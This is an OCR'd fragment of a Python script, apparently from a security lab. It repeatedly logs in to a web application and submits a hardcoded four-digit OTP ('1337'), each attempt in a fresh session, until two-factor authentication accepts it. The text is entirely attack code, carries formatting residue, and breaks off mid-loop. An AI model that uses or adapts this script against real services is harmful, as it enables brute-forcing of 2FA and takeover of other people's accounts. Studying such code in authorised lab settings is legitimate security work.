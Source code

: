 `    `return "User Verification" in response.text and response.status\_code == 200

\# Function to handle the login process

def login(session):

`    `response = session.post(login\_url, data=credentials, headers=headers)

`    `return response



\# Function to handle the 2FA process

def submit\_otp(session, otp):

`    `# Split the OTP into individual digits

`    `otp\_data = {

`        `'code-1': otp[0],

`        `'code-2': otp[1],

`        `'code-3': otp[2],

`        `'code-4': otp[3]

`    `}



`    `response = session.post(otp\_url, data=otp\_data, headers=headers, allow\_redirects=False)  # Disable auto redirects

`    `print(f"DEBUG: OTP submission response status code: {response.status\_code}")



`    `return response

\# Function to check if the response contains the login page

def is\_login\_page(response):

`    `return "Sign in to your account" in response.text or "Login" in response.text

\# Function to attempt login and submit the hardcoded OTP until success

def try\_until\_success():

`    `otp\_str = '1337'  # Hardcoded OTP

`    `while True:  # Keep trying until success

`        `session = requests.Session()  # Create a new session object for each attempt

`        `login\_response = login(session)  # Log in before each OTP attempt



`        `if is\_login\_successful(login\_response):

`            `print("Logged in successfully.")

`        `else:

`            `print("Failed to log in.")

